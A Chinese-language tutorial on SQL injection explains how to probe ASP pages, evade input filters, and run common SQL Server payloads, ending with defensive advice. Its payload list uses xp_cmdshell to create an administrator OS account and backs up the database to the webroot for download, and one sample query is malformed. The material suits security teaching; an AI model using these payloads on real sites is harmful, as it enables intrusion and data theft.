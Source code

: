 - [SQL Injection](#sql-injection)
    - [Overview](#overview)
    - [漏洞探测](#%E6%BC%8F%E6%B4%9E%E6%8E%A2%E6%B5%8B)
        - [整型参数](#%E6%95%B4%E5%9E%8B%E5%8F%82%E6%95%B0)
        - [字符串参数](#%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8F%82%E6%95%B0)
        - [特殊情况处理](#%E7%89%B9%E6%AE%8A%E6%83%85%E5%86%B5%E5%A4%84%E7%90%86)
    - [常用 SQL Injection 语句](#%E5%B8%B8%E7%94%A8-sql-injection-%E8%AF%AD%E5%8F%A5)
    - [防范方法](#%E9%98%B2%E8%8C%83%E6%96%B9%E6%B3%95)

# SQL Injection 

## Overview

SQL Injection 以 Web database 为目标，一般利用 web 应用程序对特殊字符串过滤不完全的缺陷，通过精心构造的字符串达到非法访问 web database 内容或在 database 中执行命令的目的；

由于 SQL Injection 易学易用，致使 SQL Injection 成为 OWASP 公布的十大 web 安全漏洞之首；

## 漏洞探测

一般情况下，只要是带有参数的动态网页，那么就可能存在 SQL Injection 漏洞；

下边以 http://xxx.xxx/index.asp?id=YY 为例：
### 整型参数
当参数 YY 为整型时，网页通常所使用的 SQL 语句如下：
```sql
SELECT * FROM table_name WHERE col_name = YY
```
因此可使用以下语句进行探测，若三种情况全都满足，则足以推断 index.asp 中一定存在 SQL Injection 漏洞：
- 附加一个单引号“'”，即“http://xxx.xxx/index.asp?id=YY'”    
  测试结果为网页运行异常；

- 附加字符串“ and 1=1”，即“http://xxx.xxx/index.asp?id=YY and 1=1”    
  测试结果为网页运行正常，与原运行结果相同；

- 附加字符串“ and 1=2”，即“http://xxx.xxx/index.asp?id=YY and 1=2”    
  测试结果为网页运行异常；

### 字符串参数

当输出参 YY 数为字符串时，网页通常所使用的 SQL 语句如下：
```sql
SELECT * FROM table_name FROM col_name WHERE p = 'YY'
```
因此可使用以下语句进行探测，若三种情况全都满足，则足以推断 index.asp 中一定存在 SQL Injection 漏洞：
- 附加一个单引号“'”，即 “http://xxx.xxx/index.asp?p=YY'”    
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY''
  ```
  因此，运行结果异常；

- 附加字符串“' and '1'='1”，即 “http://xxx.xxx/index.asp?p=YY' and '1'='1”       
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY' and '1'='1'
  ```
  因此，运行结果应与原结果相同；

- 附加字符串“' and '1'='2”，即 “http://xxx.xxx/index.asp?p=YY' and '1'='2”       
  此时 SQL 语句变成：
  ```sql
  SELECT * FROM table_name WHERE col_name = 'YY' and '1'='2'
  ```
  因此，运行结果异常；

### 特殊情况处理

若 web 开发者在程序中做了一些 SQL Injection 的防范措施，如过滤掉单引号等敏感字符，可采取以下方法进行尝试：

- 大小写混合    
  由于 VBS 不区分大小写，而 web 开发者在过滤时通常要么全部过滤大写，要么全部过滤小写，而大小写混合的写法往往会被忽视，如：使用 `SelecT` 代替 `SELECT` 或 `select`；
- Unicode    
  可以将要输入的字符串转化为 Unicode 字符串再进行输入，如 “+” = “%2B”， 空格 = “%20” 等；
- ASCⅡ    
  可以将要输入的字符串转化为 Unicode 字符串再进行输入，如 “U” = chr(85)， a = chr(97) 等；

## 常用 SQL Injection 语句

在 SQL Injection 的探测和利用过程中，需要在 URL 中添加能够执行的 SQL 语句，以下为常用的 URL 附加 SQL Injection 语句（针对 SQL Server）：

- http://xxx.xxx/index.asp?p=YY and user_name()='dbo'     
  网页运行异常，可以得到当前连接数据库的用户名；     
  若将“user_name()='dbo'” 改为 “and (select user_name())>0”则可获取当前系统的连接用户；

- http://xxx.xxx/index.asp?p=YY and(select db_name())>0     
  网页运行异常，可以得到当前连接的数据库名；   
  若服务器端关闭了错误信息显示，则无法获取相关信息；

- http://xxx.xxx/index.asp?p=YY;exec master..xp_cmdshell' net user aaa bbb /add '--     
  添加一个操作系统用户 aaa，密码为 bbb；
  master 是 SQL Server 的主数据库；   
  “--”可以注释掉后边的字符串，保证特殊构造的 SQL 语句能够正确执行；

- http://xxx.xxx/index.asp?p=YY;exec master..xp_cmdshell' net localgroup administrators aaa /add '--     
  将刚刚添加的用户 aaa 加入到管理员用户组中；

- http://xxx.xxx/index.asp?p=YY;backup database 数据库名 to disk='c:\inetpub\wwwroot\save.db'     
  将数据库内容全部拷贝到指定目录下，即 wwwroot，以便进一步通过 HTTP 将 db 数据文件下载到本地；

- http://xxx.xxx/index.asp?p=YY and(select @@version)>0     
  用于获取 SQL Server 版本号；

## 防范方法

 - SQL Injection 探测的过程中，需要提交包含“;”、“--”、“select”、“union”、“update”、“add” 等字符串构造的SQL语句，因此防范 SQL Injection 最有效的方法是对用户的任何输入进行检测和过滤，确保用户输入数据的安全性；
 - 在构造动态 SQL 语句，要使用类安全的参数编码机制；
 - 禁止将敏感数据以明文形式存放在数据库中，以减小泄露重要机密的风险；
 - 遵循最小权限原则，只给访问数据库的web应用附以最低的权限，以提高安全性；



